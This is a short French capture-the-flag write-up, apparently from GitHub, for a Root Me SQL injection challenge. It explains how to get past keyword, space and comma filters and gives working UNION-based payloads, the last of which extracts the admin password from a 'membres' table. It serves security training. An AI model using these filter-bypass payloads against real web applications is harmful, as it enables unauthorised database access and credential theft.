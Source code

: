# -SQL-injection---Contournement-de-filtres
 SQL injection - Contournement de filtres (challenge root me 80pt)

Description courte : Nous allons injecter dans le paramètre id ici.

![image](https://github.com/user-attachments/assets/2f36be91-3947-4aa1-a9bf-ecb908886649)

Les caractères filtrés et leurs contournements :

    Espaces → remplacer par %09 (tabulation)

    "select" → remplacer par "SELECT" (majuscules)

    "union" → remplacer par "UNION" (majuscules)

    "join" → remplacer par "JOIN" (majuscules)

    "select 1,2" (virgule filtrée) → remplacer par :
    (SELECT 1) AS A JOIN (SELECT 2) AS B
    (Note : Sans alias pour les sous-requêtes, erreur "Every derived table must have its own alias")

    "where" → remplacer par limit et offset

Indice du code source : la table a 4 colonnes.

![image](https://github.com/user-attachments/assets/eaf32426-edf5-43a6-8e47-34205fab5af8)

Payload de base :
0 UNION SELECT * FROM (SELECT 1) AS A JOIN (SELECT 2) AS B JOIN (SELECT 3) AS C JOIN (SELECT 4) AS D

Version adaptée :
0%09UNION%09SELECT%09*%09FROM%09(SELECT%091)%09AS%09A%09JOIN%09(SELECT%092)%09AS%09B%09JOIN%09(SELECT%093)%09AS%09C%09JOIN%09(SELECT%094)%09AS%09D

Payload final pour récupérer le mot de passe admin :
0%09UNION%09SELECT%09*%09FROM%09(SELECT%091)%09AS%09A%09JOIN%09(SELECT%092)%09AS%09B%09JOIN%09(SELECT%093)%09AS%09C%09JOIN%09(SELECT%09pass%09From%09membres%09LIMIT%091%09OFFSET%090%09)%09AS%09D



